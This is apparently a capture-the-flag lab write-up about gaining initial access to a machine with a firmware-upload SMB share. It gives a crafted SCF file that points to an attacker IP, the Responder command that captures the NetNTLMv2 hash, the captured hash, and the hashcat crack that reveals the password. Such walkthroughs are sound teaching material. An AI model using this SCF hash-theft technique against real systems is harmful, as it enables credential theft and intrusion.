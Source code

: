 ![Screen Shot 2021-10-05 at 22.47.34.png](https://res.craft.do/user/full/f2720b1c-ea2b-4053-35cc-fe42cb8a5e5e/doc/11A1F00E-8F3A-462D-A5C1-2471E42690AE/8D62D959-54EF-4A0E-A7A2-6BAE70BD13DA_2/Screen%20Shot%202021-10-05%20at%2022.47.34.png)

It’s firmware update platform.

![Screen Shot 2021-10-05 at 22.49.04.png](https://res.craft.do/user/full/f2720b1c-ea2b-4053-35cc-fe42cb8a5e5e/doc/11A1F00E-8F3A-462D-A5C1-2471E42690AE/5ABD2FED-620F-4EDB-9D7C-44C89E66B1A0_2/Screen%20Shot%202021-10-05%20at%2022.49.04.png)

Under updates section, we can find upload feature with a message. Upon firmware upload it goes straight to fire share directory (SMB) and their team will test and review it manually.

Initially I dropped reverse shell (exe) payload on the share, hoping that someone or a script will execute my exe file. It didn’t work.

We can steal the Net_NTLM hash using this shared directory (SMB).

[Full Disclosure: Hash thief on Windows shared folder with SCF files. ADV170014 NTLM SSO](https://seclists.org/fulldisclosure/2017/Oct/59)

> In October 2017, Microsoft fixed a severe flaw that allowed attackers to steal Windows NTLM password hashes without any user interaction, the attackers just needed to place a specially crafted Shell Command File (SCF file) inside publicly accessible Windows folders to trigger the vulnerability.

# Initial Access

This attack only works if the user interacts with the SMB directory (not file). We need two things to make this work, 1. A crafted SCF file, 2. A listener to capture NET_NTLM hash.

```
⛩\> cat hash.scf
[SHELL]
Command=2
IconFile=\\10.10.14.2\share\demo.ico
[Taskbar]
Command=ToggleDesktop

⛩\> sudo responder -wrf --lm -v -I tun0
```

Think ‘scf’ files as shortcuts to perform certain tasks. We have .scf file which contains our IP with random directory and icon file. When a someone or a script opens the SMB directory (not file) this SCF file gets executed and try to resolve the icon by visiting our IP and we capture the NET_NTLM hash.

After uploading the file, you will see hash on responder.

```
[SMB] NTLMv2 Client   : 10.10.11.106
[SMB] NTLMv2 Username : DRIVER\tony
[SMB] NTLMv2 Hash     : tony::DRIVER:eb0c6cdf398c35d4:5AEC4FE2A23FBDD45B5D5CABA63F75E3:0101000000000000E9AD4AA2B8BAD701E1B299627B9294E200000000020000000000000000000000
```

Let’s crack the Tony user’s hash using hashcat.

```
⛩\> cat hash
tony::DRIVER:eb0c6cdf398c35d4:5AEC4FE2A23FBDD45B5D5CABA63F75E3:0101000000000000E9AD4AA2B8BAD701E1B299627B9294E200000000020000000000000000000000

⛩\> hashcat hash -m 5600 /usr/share/wordlists/rockyou.txt

--------------------SNIP--------------------

TONY::DRIVER:eb0c6cdf398c35d4:5aec4fe2a23fbdd45b5d5caba63f75e3:0101000000000000e9ad4aa2b8bad701e1b299627b9294e200000000020000000000000000000000:liltony

Session..........: hashcat
Status...........: Cracked
Hash.Name........: NetNTLMv2
```